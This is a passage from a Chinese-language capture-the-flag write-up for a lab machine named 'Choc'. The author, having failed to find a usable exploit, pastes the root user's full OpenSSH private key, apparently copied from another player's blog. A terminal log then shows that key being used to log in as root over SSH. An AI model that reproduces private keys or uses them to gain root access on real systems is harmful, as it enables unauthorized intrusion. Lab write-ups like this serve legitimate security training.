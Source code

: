 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506142329108.png" alt="image-20250614224040949" style="zoom: 50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506142329109.png" alt="image-20250614224054119" style="zoom:50%;" />

不管了，降维打击，使用其他漏洞进行攻击，fa可！！！！！好吧没找到几个能用的漏洞。。。。。反正上面就是出题思路了，结果我就在巨魔师傅博客抄一下了。。。。

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAuSMhRxXhWoexxyZWPK4pkjyVHhT1jAmUYdEhKEFBLZh9z93ZW25M
lrj03xjFd4zP5AAHEG9p5h5SNi3ltHTtml7Nj59XlV6Heru/cwX7Yykxu75tZRxzQR4EjV
qUmxvqJgfql+XzKg3JgNwHRpG3tcW8Rdxbb3owVR97kjZP+3kA/pQGrQKdFe893Q1u2oDa
4R+v+jsYmzwjf/1M8m/S+J0hYzTOI+kQlBnZmMvpJYDidmyG1RO3dcLCpxCQpydH7GfO/s
6j0DdCvDr6+8C4eAzgDE5irjdMh2dKySNveNiMuhzsv1PS33ZWgx/ITlxu9zwiuufQm6D5
TcDYKMGCSQAAA8DHBCmTxwQpkwAAAAdzc2gtcnNhAAABAQC5IyFHFeFah7HHJlY8rimSPJ
UeFPWMCZRh0SEoQUEtmH3P3dlbbkyWuPTfGMV3jM/kAAcQb2nmHlI2LeW0dO2aXs2Pn1eV
Xod6u79zBftjKTG7vm1lHHNBHgSNWpSbG+omB+qX5fMqDcmA3AdGkbe1xbxF3FtvejBVH3
uSNk/7eQD+lAatAp0V7z3dDW7agNrhH6/6OxibPCN//Uzyb9L4nSFjNM4j6RCUGdmYy+kl
gOJ2bIbVE7d1wsKnEJCnJ0fsZ87+zqPQN0K8Ovr7wLh4DOAMTmKuN0yHZ0rJI2942Iy6HO
y/U9LfdlaDH8hOXG73PCK659CboPlNwNgowYJJAAAAAwEAAQAAAQAQK31QlBymp4tjdXm6
uwtudlQf2HzJylxnXriip3Bl5xe1/A5r6epOj8Dza1pz4pyVsVrsmI6LRsKvcLrLVBscjI
MvtB8WMLdshNFn3nHia0qoty0e06lNWq3TGsI3+ewtfiuDMNZYKfQbiRwpkbiV67tR7rkd
t3JZPPKyBoRd1kGjnPzJc2DPyaAtJtS21w86ZxJZtaMWUL6SE1+80VWv0XXPtlmAipfdgF
76A/Z4izCNolx0s+Ptus8gqaxJDeGI4xX5aZZ33kc5cSvNjI2hH6kFX39sS7beVz/zYDKA
BkJ0fZpNQ+HZfqGvT93YHAFZVpdlv7ysn16oNkOwZuZxAAAAgQCs/OtmKQ2SXR0ZrVryDk
58HSK2xCRcMaOqNamWSm+JaKEusms25bCD3liQGbazJyy6eS7iR2DOQPYwdU94dak72X+W
xwOexz8pwHGflvrA7SlKW4pXshuccpxgdC/KkqZRQyQvy7NbDTyGM+3uTQSnABmZWl8mJa
NtfY+fCEoKDgAAAIEA5urQzWNxzvBa4krknAuUMRD8TcsL4NjE6QCj9D1KJh2vGiBqNYjH
f6hZ+4LPFlaWiusjxZAF6vIaZJU0UHRzdcITqm1L20CZQr2D3tgWS6+VAGQHb1me5uoC4J
6Px6A7preSEjS2GtECqWxZevl8YqWEJtWaO1WDK61+Mr266UsAAACBAM0/S7QUbRqSmNTq
wd/4y9U4JxtOfeV4O0I+JNlTPkA2vdUeHEwWkKRqk3re72JwYlUAsD4AhXO1oEdfpO32fx
wavKtBNMpI64CiNVrPY8w9DPoWdCzxtFeRq1V50i9wdiVlHIdn0Ac+6T9Wv/0v8J7GXIkH
gskjOtELMuhigHo7AAAACXJvb3RAY2hvYwE=
-----END OPENSSH PRIVATE KEY-----
```

然后拿到flag。。。。。。

```bash
┌──(kali💀kali)-[~/temp/Choc]
└─$ chmod 600 root    
                                                                                                                                                                                             
┌──(kali💀kali)-[~/temp/Choc]
└─$ ssh root@192.168.10.103 -i root


##############################
#                            #
#       Welcome to my SSH !  #
#       Carl.                #
#                            #
##############################


Linux choc 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 22 20:20:23 2021
root@choc:~# ls -la
total 44
```